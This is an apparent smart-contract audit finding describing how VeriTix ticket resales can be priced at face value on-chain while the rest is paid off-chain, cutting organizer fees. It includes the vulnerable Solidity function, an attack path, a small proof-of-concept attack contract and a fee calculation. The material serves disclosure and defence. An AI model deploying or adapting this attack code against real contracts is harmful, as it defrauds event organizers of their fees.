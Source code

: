 ### Root Cause Analysis

```solidity
// VULNERABLE CODE - No minimum price enforcement
function resaleTicket(uint256 tokenId, uint256 price) external payable override nonReentrant {
    // ... validation logic ...
    
    // ❌ NO MINIMUM PRICE CHECK - Allows any price > 0
    uint256 maxPrice = VeriTixTypes.calculateMaxResalePrice(_ticketPrice, _maxResalePercent);
    if (price > maxPrice) {
        revert ExceedsResaleCap(price, maxPrice);
    }
    
    // Fee calculation on artificially low price
    uint256 organizerFee = VeriTixTypes.calculateOrganizerFee(price, _organizerFeePercent);
    // ...
}
```

### Attack Path

1. **Off-Chain Coordination**: Seller and buyer agree on true price (e.g., 0.14 ETH)
2. **On-Chain Manipulation**: Execute resale at face value (0.1 ETH) to minimize fees
3. **Off-Chain Payment**: Buyer sends additional 0.04 ETH directly to seller
4. **Fee Avoidance**: Organizer receives fee on 0.1 ETH instead of 0.14 ETH
5. **Profit**: Seller avoids 28.6% of organizer fees

### Proof-of-Concept Attack

```solidity
contract FeeCircumventionAttack {
    function coordinatedResale(
        VeriTixEvent target,
        uint256 tokenId,
        address seller,
        uint256 agreedPrice // 0.14 ETH off-chain agreement
    ) external payable {
        uint256 faceValue = target.ticketPrice(); // 0.1 ETH
        
        // Pay only face value on-chain to minimize fees
        target.resaleTicket{value: faceValue}(tokenId, faceValue);
        
        // Send additional payment off-chain (0.04 ETH)
        // This avoids organizer fee on the difference
        payable(seller).transfer(agreedPrice - faceValue);
    }
}
```

### Economic Impact Analysis

- **Agreed Price**: 0.14 ETH (140% of face value)
- **On-Chain Price**: 0.1 ETH (face value)
- **Normal Organizer Fee**: 0.014 ETH (10% of 0.14 ETH)
- **Actual Organizer Fee**: 0.01 ETH (10% of 0.1 ETH)
- **Fee Avoided**: 0.004 ETH (28.6% reduction)
- **Detection Difficulty**: HIGH (off-chain coordination)
